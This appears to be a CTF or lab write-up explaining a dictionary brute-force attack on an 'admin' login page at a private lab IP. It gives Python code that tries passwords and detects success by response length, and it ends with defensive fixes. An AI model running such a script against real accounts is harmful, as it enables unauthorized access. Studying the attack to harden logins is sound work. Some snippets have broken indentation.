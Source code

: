 # Brute force login

### Introduction
Brute forcing involves attempting multiple combinations of passwords for a specific user until the correct password is discovered, granting access to the user's account.

### Procedure
Numerous brute force techniques exist, and our focus lies on the dictionary attack. This method involves systematically testing a list of potential passwords one by one until the correct password is successfully identified.

To accomplish this, we have created a small Python program, ``brute_force.py``, which attempts to authenticate to the ``admin`` account by testing passwords from a dictionary named ``dictionary.txt``. This dictionary contains the most popular passwords used by users in 2014.

### Program
We first starts by converting the lines of our dictionary into a list. This will allow us to successively trying each password from our list. 
```` python
def read_file(path: str):
	with open(path, 'r') as file:
		lines = []

		for line in file:
			lines.append(line.strip())

	return lines
````

Then, for each password in that list, we send a request to the server with the username ``admin`` using the function ``try_authentication``. Every time we attempt an incorrect password, the server responds with a specific length, in our case, 1988 characters. By recognizing this pattern, we can determine the correctness of a password based on the length of the response. Therefore, if a response has a different number of characters than 1988, we know the password is correct.
``` python
def try_authentication(wrong_request_length: int, username: str, password: str):
  print(f"[username: {username}] [password: {password}] => ", end="", flush=True)
  params = {
		'page': 'signin',
		'username': username,
		'password': password,
		'Login': 'Login'
	}

	encoded_params = urllib.parse.urlencode(params)

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	response = requests.get(url)
	success = len(response.text) != wrong_request_length
	print(success)

	return success, response.text
```

Once we find the correct password by print the response containing the flag we are looking for.
```python
for password in passwords:
	success, response = try_authentication(wrong_request_length, username, password)

	if success:
		print(response)
		return
```

### How to fix
It is important for the service to compel users to select a strong password, safeguard the server from sending requests beyond the website by employing tokens, and implement measures to temporarily block IP addresses after a certain number of authentication attempts.